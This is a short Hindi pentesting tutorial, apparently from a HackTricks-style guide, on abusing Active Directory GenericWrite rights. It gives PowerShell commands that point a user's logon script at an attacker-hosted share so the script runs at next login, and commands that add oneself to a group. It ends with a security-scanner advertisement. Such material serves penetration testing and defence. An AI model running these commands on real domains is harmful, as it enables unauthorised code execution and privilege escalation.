 ## उपयोगकर्ता पर GenericWrite
```csharp
Get-ObjectAcl -ResolveGUIDs -SamAccountName delegate | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```
![](../../../.gitbook/assets/20.png)

`ObjectType` पर `WriteProperty`, जो इस विशेष मामले में `Script-Path` है, हमें आक्रमक स्क्रिप्ट का पथ अधिलेखित करने की अनुमति देता है, जिसका मतलब है कि अगली बार जब उपयोगकर्ता `delegate` लॉग इन करेगा, उनकी सिस्टम हमारी दुष्ट स्क्रिप्ट को निष्पादित करेगी:
```csharp
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```
नीचे दिखाया गया है कि उपयोगकर्ता के ~~`delegate`~~ लॉगऑन स्क्रिप्ट फ़ील्ड AD में अपडेट हो गया है:

![](../../../.gitbook/assets/21.png)

## समूह पर GenericWrite

इससे आप नए उपयोगकर्ताओं को समूह के सदस्य के रूप में सेट कर सकते हैं (उदाहरण के लिए खुद को):
```powershell
# Create creds
$pwd = ConvertTo-SecureString 'JustAWeirdPwd!$' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('DOMAIN\username', $pwd)
# Add user to group
Add-DomainGroupMember -Credential $creds -Identity 'Group Name' -Members 'username' -Verbose
# Check user was added
Get-DomainGroupMember -Identity "Group Name" | Select MemberName
# Remove group member
Remove-DomainGroupMember -Credential $creds -Identity "Group Name" -Members 'username' -Verbose
```
<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

सबसे महत्वपूर्ण संकट ढूंढ़ें ताकि आप उन्हें तेजी से ठीक कर सकें। Intruder आपकी हमले की सतह का ट्रैक करता है, प्रोएक्टिव धमकी स्कैन चलाता है, आपकी पूरी टेक स्टैक, एपीआई से वेब ऐप्स और क्लाउड सिस्टम तक, मुद्दों को खोजता है। [**इसे नि: शुल्क परीक्षण के लिए प्रयास करें**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) आज ही।

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

***
